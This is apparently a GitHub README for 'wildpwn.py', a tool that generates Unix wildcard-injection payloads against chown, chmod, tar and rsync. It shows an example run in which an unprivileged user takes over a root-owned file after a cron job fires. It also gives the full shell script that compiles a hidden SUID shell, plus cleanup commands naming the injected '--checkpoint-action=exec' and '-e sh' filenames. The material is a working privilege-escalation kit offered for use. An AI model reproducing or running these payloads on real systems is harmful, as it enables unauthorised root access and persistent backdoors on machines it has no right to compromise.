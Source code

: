 # First things first!
Read: https://www.exploit-db.com/papers/33930/

<br />

# Basic usage

It goes something like this:

```
usage: wildpwn.py [-h] [--file FILE] payload folder

Tool to generate unix wildcard attacks

positional arguments:
  payload      Payload to use: (combined | tar | rsync)
  folder       Where to write the payloads

optional arguments:
  -h, --help   show this help message and exit
  --file FILE  Path to file for taking ownership / change permissions. Use it
               with combined attack only.
```

<br />

## Payload types

  - **combined:** Uses the chown & chmod file reference tricks, described in section 4.1 and 4.2, combined in a single payload.
  - **tar:** Uses the Tar arbitrary command execution trick, described in section 4.3.
  - **rsync:** Uses the Rsync arbitrary command execution trick, described in section 4.4.

<br />

## Usage example
``` bash
$ ls -lh /tmp/very_secret_file
-rw-r--r-- 1 root root 2048 jun 28 21:37 /tmp/very_secret_file

$ ls -lh ./pwn_me/
drwxrwxrwx 2 root root 4,0K jun 28 21:38 .
[...]
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_1
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ python wildpwn.py --file /tmp/very_secret_file combined ./pwn_me/
[!] Selected payload: combined
[+] Done! Now wait for something like: chown uid:gid *  (or)  chmod [perms] * on ./pwn_me/. Good luck!

[...time passes / some cron gets executed...]

# chmod 000 * (for example)

[...back with the unprivileged user...]

$ ls -lha ./pwn_me/
[...]
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_1
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ ls -lha /tmp/very_secret_file
-rwxrwxrwx 1 root root 2048 jun 28 21:38 /tmp/very_secret_file
```

<br />

## Bash scripts used on tar/rsync attacks

```sh
#!/bin/sh

# get current user uid / gid
CURR_UID="$(id -u)"
CURR_GID="$(id -g)"

# save file
cat > .cachefile.c << EOF
#include <stdio.h>
int main()
{
setuid($CURR_UID);
setgid($CURR_GID);
execl("/bin/bash", "-bash", NULL);
return 0;
}
EOF

# make folder where the payload will be saved
mkdir .cache
chmod 755 .cache

# compile & give SUID
gcc -w .cachefile.c -o .cache/.cachefile
chmod 4755 .cache/.cachefile
``` 
#### Clean up (tar)
``` sh
# clean up
rm -rf ./'--checkpoint=1'
rm -rf ./'--checkpoint-action=exec=sh .webscript'
rm -rf .webscript
rm -rf .cachefile.c
``` 

#### Clean up (rsync)
``` sh
# clean up
rm -rf ./'-e sh .syncscript'
rm -rf .syncscript
rm -rf .cachefile.c
``` 

<br />

> Feel free to change them!
